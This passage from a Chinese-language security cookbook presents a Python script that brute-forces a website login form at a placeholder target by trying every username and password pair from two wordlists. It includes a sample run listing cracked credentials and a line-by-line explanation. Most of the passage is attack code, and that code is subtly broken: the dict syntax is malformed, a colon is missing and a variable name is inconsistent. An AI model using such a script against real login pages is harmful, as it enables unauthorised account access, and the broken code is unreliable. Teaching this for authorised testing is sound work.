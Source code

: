 ```py
python bruteforcepasswords.py userlists.txt passwordlist.txt

Found User and Password combinations:

root:toor

angela:trustno1

bob:password123

john:qwerty

```

## 它是如何工作的…

初始导入必要的模块并检查系统参数后，我们设置密码检查：

```py
filename1=str(sys.argv[1])
filename2=str(sys.argv[2])
userlist = open(filename1,'r')
passwordlist = open(filename2,'r')
```

文件名参数存储在变量中，然后打开变量。`r`变量表示我们以只读方式打开这些文件。

我们还指定目标并初始化数组以存储找到的任何有效凭据：

```py
url = "http://www.vulnerablesite.com/login.html"
foundusers = []
FailStr="Incorrect User or Password"
```

前面代码中的`FailStr`变量只是为了让我们的生活更轻松，它使用了一个简短的变量名来键入，而不是键入整个字符串。

此配方的主要步骤是在一个嵌套循环中执行我们的自动密码检查：

```py
for user in userlist:
  for password in passwordlist:
    data = urllib.urlencode({"username="user&"password="password })
    request = urllib2.urlopen(url,data)
    response = request.read()
    if(response.find(FailStr)<0)
      foundcreds.append(user+":"+password)
    request.close()
```

在这个循环中，发送一个请求，包括用户名和密码作为参数。如果响应不包含表示用户名和密码组合无效的字符串，那么我们知道我们有一组有效的凭据。然后，我们将这些凭据添加到前面创建的数组中。

在尝试了所有的用户名和密码组合后，我们将检查数组是否有凭据。如果是这样，我们就打印凭证。如果没有，我们会打印一条悲伤的消息，通知我们没有发现任何东西：

```py
if len(foundcreds)>0:
  print "Found User and Password combinations:\n"
  for name in foundcreds:
    print name+"\n"
else:
  print "No users found\n"
```
